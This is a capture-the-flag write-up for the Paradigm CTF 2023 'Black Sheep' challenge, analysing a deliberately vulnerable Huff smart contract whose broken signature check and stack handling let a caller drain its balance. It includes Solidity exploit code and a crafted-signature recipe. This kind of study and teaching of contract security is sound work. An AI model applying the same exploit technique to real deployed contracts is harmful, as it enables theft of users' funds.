 # Paradigm CTF 2023 - Black Sheep - Solution

<!-- MarkdownTOC levels="1,2,3" autolink="true" -->

- [Introduction](#introduction)
- [The Contract](#the-contract)
- [Contract Analysis](#contract-analysis)
  - [1. The `withdraw` Function](#1-the-withdraw-function)
  - [2. Identifying the Vulnerability](#2-identifying-the-vulnerability)
- [Exploit Construction](#exploit-construction)
- [Generating a Valid Signature](#generating-a-valid-signature)
- [Exploit Code](#exploit-code)
- [Conclusion](#conclusion)
- [Repositories](#repositories)

<!-- /MarkdownTOC -->

## Introduction

In this article we'll discuss the solution to the challenge from the Paradigm CTF 2023 called "Black Sheep." The contract is written in Huff, a low-level language designed for Ethereum Virtual Machine (EVM) development. As someone passionate about low-level EVM security research, this was an exciting opportunity to dive deep into Huff.

## The Contract

```nasm
/* Interface */
#define function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()


#define macro CHECKVALUE() = takes (0) returns (0) {
    callvalue 0x10 gt over jumpi
    0x00 dup1 revert
    over:
        0x00
        0x00
        0x00
        0x00
        callvalue 0x02 mul
        caller
        0xFFFFFFFF
        call
}
#define macro CHECKSIG() = takes (0) returns (1) {
    0x04 calldataload
    0x00 mstore
    0x24 calldataload
    0x20 mstore
    0x44 calldataload
    0x40 mstore
    0x64 calldataload
    0x60 mstore
    0x20
    0x80
    0x80
    0x00
    0x1
    0xFFFFFFFF
    staticcall
    iszero invalidSigner jumpi
    0x80 mload
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
    end jump

    correctSigner:
        0x00
        end jump
    invalidSigner:
        0x01
        end jump
    end:
}
#define macro WITHDRAW() = takes (0) returns (0){
    CHECKVALUE()
    CHECKSIG()
    iszero iszero noauth jumpi
    0x00 dup1 dup1 dup1
    selfbalance caller
    gas call
    end jump
    noauth:
        0x00 dup1 revert
    end:
}


#define macro MAIN() = takes (0) returns (0) {
    // Identify which function is being called.
    0x00 calldataload 0xE0 shr
    dup1 __FUNC_SIG(withdraw) eq withdrawj jumpi
    callvalue 0x00 lt recieve jumpi

    0x00 0x00 revert

    withdrawj:
        WITHDRAW()
    recieve:
}
```

## Contract Analysis

### 1. The `withdraw` Function

The function `withdraw(bytes32,uint8,bytes32,bytes32)` maps to the `WITHDRAW()` macro. It relies on two sub-macros:

- **`CHECKVALUE()`**: Verifies `msg.value` and reverts if it's more than `0x10` wei. If valid, it doubles the amount and sends it back.
- **`CHECKSIG()`**: Calls the precompiled contract `ecrecover` (at address `0x1`) to verify the signature against a specific address.

### 2. Identifying the Vulnerability

- **Signature Validation Issue:** The contract allows any valid signature, even from addresses other than the intended signer (`0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044`).
- **Redundant `ISZERO` Usage:** The use of `ISZERO` twice doesn't add value; it leaves the stack unchanged. This quirk is not critical for the exploit and may be distractive.
- **Fallback Stack Behavior:** In this particular case, the returned value from
  `CHECKVALUE()`'s `CALL` is used by `JUMPI` if `CHECKSIG()` doesn't push a value.
  This behavior influences the control flow, as `JUMPI` will rely on whatever
  happens to be on top of the stack.

## Exploit Construction

1. Deploy an Attack Contract:

  - The `receive()` function should revert when `msg.value == 0x12` to ensure `CALL` returns `0x0`.
  - Otherwise, it should succeed to collect the funds.

2. Trigger the Vulnerability:

  - Call `withdraw()` with either:
    - A valid signature from any address.
    - Or the tuple `(0x00, 27, 0x00, 0x00)` which results in a non-zero response from `ecrecover`.

## Generating a Valid Signature

We can use `cast` to create an address and generate a valid signature.

<p style="text-align: center;">
  <img width="600" src="/docs/assets/img/black-sheep-01.png">
</p>

## Exploit Code

```solidity
function testExploit() public {
    bytes32 msgHash = keccak256("Black Sheep");
    bytes32 r = 0x9f2c9ed6b027b594f5072cc39b6c5ffca1ca157ad5b661d0d268c577eede360c;
    bytes32 s = 0x52e8bf726d82a28ebd9b172efba7e75fd0671f6c1544b5a5b70ad803de360e33;
    uint8 v = 27;
    bank.withdraw{value: 0x09}(msgHash, v, r, s);

    assertEq(address(Challenge(challengeAddress).BANK()).balance, 0);
}

receive() external payable {
  if (msg.value == 0x12) {
    revert("");
  }
}
```

## Conclusion

This challenge highlighted the nuances of stack manipulation in Huff and the
critical importance of careful flow control, especially for security-related
validations. It also underscores the need for robust signature verification.

To prevent vulnerabilities like signature malleability, contracts should
implement additional controls. For example, the tuple `(0x00, 27, 0x00, 0x00)`
is considered valid by `ecrecover`, so contracts relying on signature
validation must properly handle such cases to prevent misuse.

Additionally, signatures should be bound to specific messages to prevent
replay attacks. Validation checks must ensure only authorized signers are
accepted to maintain the contract's security posture.

Incorporating these best practices helps build more secure smart contracts
and reduces the risk of common attack vectors.

## Repositories

* [https://github.com/bentobox19/paradigm-ctf](https://github.com/bentobox19/paradigm-ctf)
* [https://github.com/paradigmxyz/paradigm-ctf-2023](https://github.com/paradigmxyz/paradigm-ctf-2023)
